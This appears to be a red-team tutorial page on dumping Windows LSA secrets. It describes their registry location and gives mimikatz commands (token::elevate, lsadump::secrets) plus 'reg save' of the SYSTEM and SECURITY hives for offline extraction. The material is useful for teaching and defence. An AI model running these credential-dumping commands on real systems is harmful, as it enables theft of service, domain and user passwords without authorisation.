 # Dumping LSA Secrets

> #### **What is stored in LSA secrets?**
>
> Originally, the secrets contained cached domain records. Later, Windows developers expanded the application area for the storage. At this moment, they can store PC users' text passwords, service account passwords \(for example, those that must be run by a certain user to perform certain tasks\), Internet Explorer passwords, RAS connection passwords, SQL and CISCO passwords, SYSTEM account passwords, private user data like EFS encryption keys, and a lot more. For example, the _NL$KM_ secret contains the cached domain password encryption key.

## Storage

LSA Secrets are stored in registry:

```text
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets
```

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-20-39.png)

## Execution

### Memory

Secrets can be dumped from memory like so:

{% tabs %}
{% tab title="attacker@mimikatz" %}
```text
token::elevate
lsadump::secrets
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-25-01.png)

### Registry

LSA secrets can be dumped from registry hives likes so:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
reg save HKLM\SYSTEM system & reg save HKLM\security security
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-37-11.png)

{% tabs %}
{% tab title="attacker@mimikatz" %}
```csharp
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-38-02.png)

## References

{% embed url="https://www.passcape.com/index.php?section=docsys&cmd=details&id=23" %}



